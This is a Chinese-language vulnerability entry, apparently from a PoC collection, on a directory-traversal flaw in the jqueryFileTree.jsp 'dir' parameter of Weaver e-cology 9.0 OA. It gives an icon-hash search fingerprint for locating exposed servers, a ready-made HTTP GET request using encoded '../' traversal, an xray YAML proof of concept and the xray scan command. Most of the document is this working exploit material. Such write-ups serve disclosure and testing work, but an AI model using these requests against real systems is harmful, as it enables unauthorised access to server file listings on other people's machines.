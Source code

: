 # 泛微OA E-Cology jqueryFileTree.jsp 目录遍历漏洞
## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等，其中 jqueryFileTree.jsp 文件中 dir 参数存在目录遍历漏洞，攻击者通过漏洞可以获取服务器文件目录信息
## 影响版本
```
泛微e-cology 9.0
```

## 网络测绘
```
icon_hash="1578525679"
```

## 环境搭建

-

## 漏洞复现

![image.png](https://cdn.jsdelivr.net/gh/klearcc/pic/img202309201225783.png)


## 数据包
```
GET /hrm/hrm_e9/orgChart/js/jquery/plugins/jqueryFileTree/connectors/jqueryFileTree.jsp?dir=/page/resource/userfile/%2e%2e/%2e%2e/ HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0

```

## YAML代码
```
name: poc-yaml-ecology-jqueryfiletree-dt
manual: true
transport: http
rules:
  r0:
    request:
      cache: true
      method: GET
      path: ^/hrm/hrm_e9/orgChart/js/jquery/plugins/jqueryFileTree/connectors/jqueryFileTree.jsp?dir=/page/resource/userfile/../../
      # path: ^/test
    expression: response.status == 200 && response.body.bcontains(b'index.jsp') && response.body.bcontains(b'PortalCenter.jsp') && response.body.bcontains(b'PortalSettingOperation.jsp')
expression: r0()
detail:
  author: klear
  links:
    - https://peiqi.wgpsec.org/wiki/oa/%E6%B3%9B%E5%BE%AEOA/%E6%B3%9B%E5%BE%AEOA%20E-Cology%20jqueryFileTree.jsp%20%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E6%BC%8F%E6%B4%9E.html


```

## xray调用

```
xray ws --poc poc-yaml-ecology-jqueryFileTree-DT.yml --url xxx --html-output test.html

```

![image.png](https://cdn.jsdelivr.net/gh/klearcc/pic/img202309201224304.png)
